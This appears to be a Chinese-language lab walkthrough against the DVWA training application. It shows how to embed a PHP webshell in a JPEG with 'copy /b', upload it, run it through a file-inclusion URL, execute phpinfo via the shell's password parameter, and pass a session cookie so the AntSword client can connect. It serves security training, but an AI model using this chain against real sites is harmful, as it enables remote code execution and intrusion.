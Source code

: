 合并生成新文件

```
G:\>copy xuegod.jpg/b + webshell.php/a hello.jpg
```

> 此时生成的 hello.jpg 含有 webshell.php 的代码

在 ` File Upload` 上传图片马

```
../../hackable/uploads/hello.jpg
```

进入 `File Inclusion` ，拼接 url

```
http://192.168.1.76/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/uploads/hello.jpg
```

```
http://centos7-6.local/dvwa/vulnerabilities/upload/?page=file:///var/www/html/dvwa/hackable/uploads/201457119579.jpg
```

```
http://centos7-6.local/dvwa/vulnerabilities/upload/?page=file:///var/www/html/dvwa/hackable/uploads/201457119579.jpg
```

```
../../hackable/uploads/201457119579.jpg
```

> 使用 file 协议和绝对路径

利用密码执行代码

```
xuegod=phpinfo();
```

> 会在代码插入的地方显示反馈

**在蚁剑中执行 payload 需要加入 Cookie 请求头**

在目标页面获取 Cookie

```
>document.cookie
'PHPSESSID=mm8prcunm801p1hb0bqjv7ig47; security=high'
```

将 Cookie 写入蚁剑请求信息即可

![将 Cookie 写入蚁剑请求信息](./../../../../images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/%E5%B0%86%20Cookie%20%E5%86%99%E5%85%A5%E8%9A%81%E5%89%91%E8%AF%B7%E6%B1%82%E4%BF%A1%E6%81%AF.png)

>要去掉单引号
